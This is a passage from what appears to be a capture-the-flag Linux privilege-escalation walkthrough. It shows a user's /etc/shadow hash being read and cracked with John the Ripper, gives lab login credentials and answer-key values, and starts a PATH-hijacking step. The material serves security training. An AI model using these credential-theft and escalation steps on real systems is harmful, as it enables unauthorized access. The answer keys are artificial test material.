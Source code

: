> 9.3 - <em>What is Matt's password?</em><br>
>> <code><strong>123456</strong></code><br>
<p></p><br>

<pre><code>bash-5.0# grep matt /etc/shadow
matt:$6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.:18798:0:99999:7:::
</code></pre><br>

<pre><code>bash-5.0# grep matt /etc/passwd
matt:x:1002:1002::/home/matt:/bin/sh:
</code></pre><br>

<pre><code>root@ip-[Target]:~# nano passwd
root@ip-[Target]:~# nano shadow
root@ip-[Target]:~# unshadow passwd shadow | tee senha
matt:$6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.:1002:1002::/home/matt:/bin/sh:
</code></pre><br>

<pre><code>root@ip-[Target]:~# john --wordlist=/usr/share/wordlists/rockyou.txt senha
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (matt)
1g 0:00:00:00 DONE (2024-10-31 03:39) 3.125g/s 800.0p/s 800.0c/s 800.0C/s 123456..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
</code></pre><br>


<h2>Task 10 - Privilege Escalation: PATH</h2>
<br>

<p><strong>Note: Launch the target machine attached to this task to follow along.<br>

You can launch the target machine and access it directly from your browser.<br>

Alternatively, you can access it over SSH with the low-privilege user credentials below:<br><br>

Username: karen<br>

Password: Password1</strong></p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 10.1 - <em>What is the odd folder you have write access for?</em><br>
>> <code><strong>____________</strong></code><br>
<p></p>

<pre><code>$ id
uid=1003(karen) gid=1003(karen) groups=1003(karen)
$ pwd
/
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ cd home
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ cd /tmp
$ echo "/bin/bash" > thm